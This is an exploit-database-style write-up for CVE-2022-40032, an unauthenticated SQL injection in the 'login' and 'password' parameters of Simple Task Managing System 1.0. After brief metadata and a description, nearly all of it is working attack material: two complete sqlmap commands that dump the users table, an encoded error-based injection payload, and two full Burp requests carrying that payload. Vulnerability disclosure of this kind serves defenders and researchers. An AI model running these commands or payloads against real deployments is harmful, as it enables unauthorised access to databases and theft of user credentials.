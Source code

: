 # CVE-2022-40032: Simple Task Managing System - 'login' and 'password' SQL Injection (Unauthenticated) 
+ **Exploit Title:** Simple Task Managing System - 'login' and 'password' SQL Injection (Unauthenticated)  
+ **Date:** 2022-01-09  
+ **Exploit Author:** Hamdi Sevben  
+ **Vendor Homepage:** https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html  
+ **Software Link:** https://www.sourcecodester.com/sites/default/files/download/razormist/Task%20Managing%20System%20in%20PHP.zip  
+ **Version:** 1.0  
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53  
+ **CVE:** CVE-2022-40032  

## References:
+ https://www.exploit-db.com/exploits/51273
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40032
+ https://nvd.nist.gov/vuln/detail/CVE-2022-40032
+ https://packetstormsecurity.com/files/171739/Simple-Task-Managing-System-1.0-SQL-Injection.html

## 1. Description:  
Simple Task Managing System 1.0 allows SQL Injection via parameters 'login' and 'password' in "/TaskManagingSystem/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latest vulnerabilities in the underlying database.

## 2. Proof of Concept:
+ In sqlmap use 'login' parameter or 'password' parameter to dump users table from 'tasker' database. 
+ Then run SQLmap to extract the data from the database:
```
sqlmap.py -u "http://localhost/TaskManagingSystem/loginValidation.php" -p "login" --risk="3" --level="3" --method="POST" --data="login=test&password=" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36" --headers="Host:localhost\nAccept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8\nAccept-Encoding:gzip, deflate\nAccept-Language:en-us,en;q=0.5\nCache-Control:no-cache\nContent-Type:application/x-www-form-urlencoded\nReferer:http://localhost/TaskManagingSystem/login.php" --dbms="MySQL" --batch --dbs -D tasker -T users --dump
```

```
sqlmap.py -u "http://localhost/TaskManagingSystem/loginValidation.php" -p "password" --risk="3" --level="3" --method="POST" --data="login=&password=test" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36" --headers="Host:localhost\nAccept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8\nAccept-Encoding:gzip, deflate\nAccept-Language:en-us,en;q=0.5\nCache-Control:no-cache\nContent-Type:application/x-www-form-urlencoded\nReferer:http://localhost/TaskManagingSystem/login.php" --dbms="MySQL" --batch --dbs -D tasker -T users --dump
```

## 3. Example payload: 
```
-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```

## 4. Burpsuite request on 'login' parameter:  
```
POST /TaskManagingSystem/loginValidation.php HTTP/1.1  
Host: localhost  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 312  
Origin: http://localhost  
Connection: close  
Referer: http://localhost/TaskManagingSystem/login.php  
Cookie: PHPSESSID=samt0gti09djsstpqaj0pg4ta8  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1  

login=-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27&password=P@ssw0rd!
```

## 5. Burpsuite request on 'password' parameter:
```
POST /TaskManagingSystem/loginValidation.php HTTP/1.1  
Host: localhost  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 307  
Origin: http://localhost  
Connection: close  
Referer: http://localhost/TaskManagingSystem/login.php  
Cookie: PHPSESSID=samt0gti09djsstpqaj0pg4ta8  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1  

login=user&password=-1%27+and+6%3d3+or+1%3d1%2b(SELECT+1+and+ROW(1%2c1)%3e(SELECT+COUNT(*)%2cCONCAT(CHAR(95)%2cCHAR(33)%2cCHAR(64)%2cCHAR(52)%2cCHAR(100)%2cCHAR(105)%2cCHAR(108)%2cCHAR(101)%2cCHAR(109)%2cCHAR(109)%2cCHAR(97)%2c0x3a%2cFLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.COLLATIONS+GROUP+BY+x)a)%2b%27
```
